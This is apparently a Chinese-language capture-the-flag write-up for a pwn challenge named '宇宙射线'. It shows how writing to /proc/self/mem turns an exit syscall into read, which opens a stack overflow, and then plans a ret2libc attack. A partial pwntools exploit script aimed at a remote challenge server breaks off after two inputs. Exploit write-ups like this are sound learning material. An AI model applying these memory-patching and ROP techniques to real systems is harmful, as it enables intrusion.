![[Pasted image 20250121163812.png]]

# 宇宙射线
程序里给了`/proc/self/mem`，可以直接修改代码。
![[Pasted image 20250121165930.png]]
首先按照`0x`的格式输入要修改的地址。
![[Pasted image 20250121170028.png]]
然后在此处输入一个字节，便可以修改为输入的字节。
![[Pasted image 20250121170126.png]]
例如这里我们选择的是`0x40151f`，并将此处修改为`0x00`。
![[Pasted image 20250121170219.png]]
可以看到修改成功。
![[Pasted image 20250121170606.png]]
在这里可以看到用`syscall`调用了系统调用号为`3c`的程序，将``3c``修改就可以调用其他程序。将其修改为`0`就可以调用`read`函数。
![[Pasted image 20250121170908.png]]
可以看到成功调用了`read`函数，且拥有栈溢出漏洞。
`ROPgadget`查询后发现只有`pop rbp`可用，但程序中有一个`key`函数可以将`rbp`的内容放入`rdi`中。
之后便是简单的`ret2libc`。
exp：
```python
from pwn import *

# from LibcSearcher import LibcSearcher

from wstube import websocket

  

context.log_level = 'debug'

local = False

if local:

p = process('./pwn')

pwnlib.gdb.attach(p, 'b *.x40155f')

else:

# p = websocket('wss://xlctf.huhstsec.top/api/proxy/019471ee-7eac-765f-ae48-e2b9fb68618e')

p = remote('101.43.67.25', 8090)

  

elf = ELF('./pwn')

libc = ELF('./libc.so.6')

  

p.sendlineafter(b'cosmic rays:\n', b'0x401562')

p.sendlineafter(b'Enter the data sent:\n', b'0x0')

  

```